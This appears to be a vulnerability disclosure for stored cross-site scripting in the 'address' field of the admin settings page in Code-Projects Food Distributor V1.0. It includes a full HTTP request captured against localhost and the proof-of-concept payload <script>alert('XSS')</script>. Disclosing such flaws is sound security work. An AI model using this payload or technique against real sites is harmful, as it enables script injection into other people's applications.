 Cross-Site Scripting vulnerability in the `address` parameter of the Site Settings functionality

```
/fooddis/admin/save_settings.php
```

Vendor Homepage:

```
https://code-projects.org/food-distributor-site-in-php-with-source-code/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP
```

Affected Page:

```
/fooddis/admin/save_settings.php
```

The `address` parameter in the `save_settings.php` file of the Code-Projects Food Distributor System is vulnerable to XSS Injection. 

Proof of vulnerability:
<img width="952" alt="image" src="https://github.com/user-attachments/assets/aa8507a8-b0ed-4c9d-a00d-32f79016584c" />
<img width="1075" alt="image" src="https://github.com/user-attachments/assets/8ebdbe37-be91-4e17-a402-a661a4d23741" />






Request:

```
POST /fooddis/admin/save_settings.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1752
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIhGmSS8HxYIWuPDR
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/fooddis/admin/site_settings.php?success=true
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b409c2d300348e8d3c7d564868ff9e2f
Connection: keep-alive

------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_name"

Food Website
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_title"

Food Website
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_keyword"

Site
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_desc"

Food Website, established in 2018, is a well known ethic food distributor in Nigeria. With previous experience in food technology and research, Lumidek Associates Ltd. is the market leader in serving high quality and health promoting food products across Nigeria.
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="google_code"

09tghjpo987hpnjkb
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_email"

test@qq.com
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="site_phone"

123456789
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="linkedin"

(+234)000 000 1353
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="facebook"

https://facebook.com
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="twitter"

fubxx
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="address"

<script>alert('XSS')</script>
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="city"

Eliozu road, off Airport road, Port Harcourt, Rivers state
------WebKitFormBoundaryIhGmSS8HxYIWuPDR
Content-Disposition: form-data; name="country"

Nigeria
------WebKitFormBoundaryIhGmSS8HxYIWuPDR--

```

payload

```
<script>alert('XSS')</script>
```

